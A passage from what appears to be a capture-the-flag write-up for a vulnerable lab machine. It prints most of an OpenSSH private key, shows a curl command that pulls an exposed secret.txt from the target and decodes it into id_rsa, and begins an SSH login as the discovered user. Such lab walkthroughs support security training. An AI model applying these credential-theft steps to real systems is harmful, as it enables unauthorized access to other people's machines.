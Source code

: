 ```console
hxjPnZ5xjYLwJKk/oGVs/zKctHpGrpOjT+zQszkTayFwGBWta1s2hLcqR8GJAhHH1iSZWe
/n3BBWuQe4BMLf2inRUVz0MIpxZYkDGDJmrvD2Wz4gSK8bSGF8tzB3CgSLCdB0ir/h2ylv
ZKUy+TqAJAfHxxd9Lo1Tm+mE7nNbCSlkRyGWN6ntPCNkV3hMRRWLvaC7oNHbR2HSRxS+3F
ojb+JkcifUXK4VS9VdwmszWSisK2kQAAAAMBAAEAAAGBALCyzeZtJApaqGwb6ceWQkyXXr
bjZil47pkNbV70JWmnxixY31KjrDKldXgkzLJRoDfYp1Vu+sETVlW7tVcBm5MZmQO1iApD
gUMzlvFqiDNLFKUJdTj7fqyOAXDgkv8QksNmExKoBAjGnM9u8rRAyj5PNo1wAWKpCLxIY3
BhdlneNaAXDV/cKGFvW1aOMlGCeaJ0DxSAwG5Jys4Ki6kJ5EkfWo8elsUWF30wQkW9yjIP
UF5Fq6udJPnmEWApvLt62IeTvFqg+tPtGnVPleO3lvnCBBIxf8vBk8WtoJVJdJt3hO8c4j
kMtXsvLgRlve1bZUZX5MymHalN/LA1IsoC4Ykg/pMg3s9cYRRkm+GxiUU5bv9ezwM4Bmko
QPvyUcye28zwkO6tgVMZx4osrIoN9WtDUUdbdmD2UBZ2n3CZMkOV9XJxeju51kH1fs8q39
QXfxdNhBb3Yr2RjCFULDxhwDSIHzG7gfJEDaWYcOkNkIaHHgaV7kxzypYcqLrs0S7C4QAA
AMEAhdmD7Qu5trtBF3mgfcdqpZOq6+tW6hkmR0hZNX5Z6fnedUx//QY5swKAEvgNCKK8Sm
iFXlYfgH6K/5UnZngEbjMQMTdOOlkbrgpMYih+ZgyvK1LoOTyMvVgT5LMgjJGsaQ5393M2
yUEiSXer7q90N6VHYXDJhUWX2V3QMcCqptSCS1bSqvkmNvhQXMAaAS8AJw19qXWXim15Sp
WoqdjoSWEJxKeFTwUW7WOiYC2Fv5ds3cYOR8RorbmGnzdiZgxZAAAAwQDhNXKmS0oVMdDy
3fKZgTuwr8My5Hyl5jra6owj/5rJMUX6sjZEigZa96EjcevZJyGTF2uV77AQ2Rqwnbb2Gl
jdLkc0Yt9ubqSikd5f8AkZlZBsCIrvuDQZCoxZBGuD2DUWzOgKMlfxvFBNQF+LWFgtbrSP
OgB4ihdPC1+6FdSjQJ77f1bNGHmn0amoiuJjlUOOPL1cIPzt0hzERLj2qv9DUelTOUranO
cUWrPgrzVGT+QvkkjGJFX+r8tGWCAOQRUAAADBAM0cRhDowOFx50HkE+HMIJ2jQIefvwpm
Bn2FN6kw4GLZiVcqUT6aY68njLihtDpeeSzopSjyKh10bNwRS0DAILscWg6xc/R8yueAeI
Rcw85udkhNVWperg4OsiFZMpwKqcMlt8i6lVmoUBjRtBD4g5MYWRANO0Nj9VWMTbW9RLiR
kuoRiShh6uCjGCCH/WfwCof9enCej4HEj5EPj8nZ0cMNvoARq7VnCNGTPamcXBrfIwxcVT
8nfK2oDc6LfrDmjQAAAAlvc2NwQG9zY3A=
-----END OPENSSH PRIVATE KEY-----
```

So I saved this private key to a file.

```console
root@kali:~$ curl -s http://192.168.179.157/secret.txt | base64 -d  > id_rsa
```

On the main page, in the following text I found the user **oscp**.

![](/assets/images/infosecpreposcp/screenshot-4.png)

## Exploitation
### Access via SSH

Before to log in is necessary grant write and read privileges to private key file, then I logged in via ssh as the user oscp. 

